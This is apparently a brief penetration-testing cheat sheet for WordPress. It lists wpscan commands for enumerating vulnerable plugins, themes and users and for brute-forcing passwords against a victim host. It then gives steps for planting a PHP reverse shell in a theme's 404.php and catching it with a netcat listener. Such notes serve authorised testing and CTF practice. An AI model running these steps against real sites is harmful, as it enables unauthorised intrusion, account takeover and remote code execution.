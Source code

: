 ### wpscan 

#### Scan
- wpscan --url https://[target_ip]
#### Vulnerable Plugins
- wpscan --url http://[victim_ip] --enumerate vp
#### Vulnerable Themes
- wpscan --url http://[victim_ip] --enumerate vt
#### Enumerate Users
- wpscan -u http://[victim_ip] --enumerate u
#### Password Bruteforce
- wpscan -u http://[victim_ip] --wordlist file.txt threads 50
------------------------------------------------------------------------------------------------------------------------------------------
### ReverseShell via thames

- Log_in
- Side menu
- Appearance
  - Editor
  - 404.php
  - paste php reverse shell
- run nc -lnvp [ip]

- Open /wp-content/themes/twentyfiftee(change for your thames name)/404.php


